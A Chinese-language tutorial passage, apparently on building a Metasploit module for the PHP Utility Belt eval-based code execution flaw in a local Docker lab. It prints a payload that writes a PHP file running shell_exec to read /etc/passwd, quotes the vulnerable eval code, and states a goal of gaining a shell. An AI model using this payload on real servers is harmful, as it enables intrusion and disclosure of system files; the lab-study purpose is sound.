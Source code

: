 构建并运行：

```bash
docker build -t my-php-app .
docker run -d -p 8080:80 -p 4444:4444 --name my-running-app my-php-app
```

测试一下环境是否正常：

![Bildschirmfoto 2018-10-27 um 5.31.51 PM.png]({{ site.url }}/images/metasploit/DD263C0824226A28686CC02227A3340E.png)

成功运行程序，说明环境正常。

### 漏洞有效性测试

根据exploit-db上的内容，我们在运行框中输入

```php
fwrite(fopen('info.php', 'w'),'<?php $a = "cat /etc/passwd"; echo shell_exec($a);?>');
```

运行，然后访问`info.php`：

![Bildschirmfoto 2018-10-27 um 5.43.36 PM.png]({{ site.url }}/images/metasploit/E4ECC25984CFF5530AE9CB8E30DEB10B.png)

说明漏洞存在。

### 漏洞分析

“漏洞”位于`ajax.php`中：

```php
# Home module (run arbitrary PHP)
if ( isset( $_POST['code'] ) ) {
	if ( false === eval( $_POST['code'] ) )
		echo 'PHP Error encountered, execution halted';
}
```

不过这个真的算漏洞吗？

[PHP Utility Belt 远程代码执行漏洞的验证与分析](https://www.freebuf.com/articles/web/99176.html)有一个漏洞分析。我觉得这个不算是漏洞，这个程序本身就是供开发人员测试代码使用的，所以能够执行PHP代码不是很正常吗？真要说漏洞，那么就是人。如果开发人员把它暴露在公网上，那就是开发人员的漏洞。

### 收集信息

我们的目的是获取shell。根据之前的分析，我们需要提交code参数的POST请求。

Metasploit中开发与Web相关的模块要用到的大多数函数都在`msf/core/exploits/http/client.rb`中。而`rex/proto/http/client.rb`和`rex/proto/http/client_request.rb`包含GET/POST请求的核心变量和方法。

我们利用`msf/core/exploits/http/client.rb`中的以下方法创建HTTP请求，它们是相似的：

```ruby
  # Connects to the server, creates a request, sends the request, reads the response
  # Passes +opts+ through directly to Rex::Proto::Http::Client#request_raw.
  def send_request_raw(opts={}, timeout = 20)
    if datastore['HttpClientTimeout'] && datastore['HttpClientTimeout'] > 0
      actual_timeout = datastore['HttpClientTimeout']
    else
      actual_timeout =  opts[:timeout] || timeout
    end
    begin
      c = connect(opts)
      r = c.request_raw(opts)
  # ...

  # Connects to the server, creates a request, sends the request,
  # reads the response
  # Passes `opts` through directly to {Rex::Proto::Http::Client#request_cgi}.
  # @return (see Rex::Proto::Http::Client#send_recv))
```